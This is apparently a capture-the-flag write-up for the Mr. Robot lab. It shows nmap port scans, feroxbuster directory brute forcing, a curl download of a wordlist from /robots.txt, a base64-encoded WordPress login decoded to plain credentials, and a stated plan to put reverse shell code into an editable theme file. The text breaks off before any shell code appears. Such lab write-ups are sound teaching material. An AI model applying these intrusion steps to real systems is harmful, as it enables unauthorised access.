








Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.81.178.27
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-11 19:50 IST
Nmap scan report for 10.81.178.27
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 27.03 seconds

```

```sh
nmap -sC -sV -T4 -Pn -p 22,80,443 10.81.178.27
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-11 19:51 IST
Nmap scan report for 10.81.178.27
Host is up (0.25s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e5:ee:95:61:e5:83:f5:c2:87:e1:84:6e:a5:fb:c9:a9 (RSA)
|   256 86:a2:bd:d6:59:9c:7c:f0:84:08:41:cd:de:60:c2:9e (ECDSA)
|_  256 70:60:a2:95:b9:56:36:e7:ee:6e:75:88:ab:02:b5:77 (ED25519)
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.10 seconds
```

Visited web server on port 80

### Directory Brute forcing
```sh
feroxbuster -u http://10.81.178.27
```



Scan revealed multiple useful directories including /robots.txt

We got 1st key.


Visited 'fsocity.dic' which we found on /robots.txt

Using below command or simply copy paste it into a file.
```sh
curl http://10.81.178.27/fsocity.dic > passwords1.txt
```

Visited /license directory and during inspection we found below 
ZWxsaW90OkVSMjgtMDY1Mgo=


using cyberchef (elliot : ER28-0652)

Visited /wp-admin and use above creds.

We noticed that elliot is allow to edit files.


So we simply put reverse shell code into 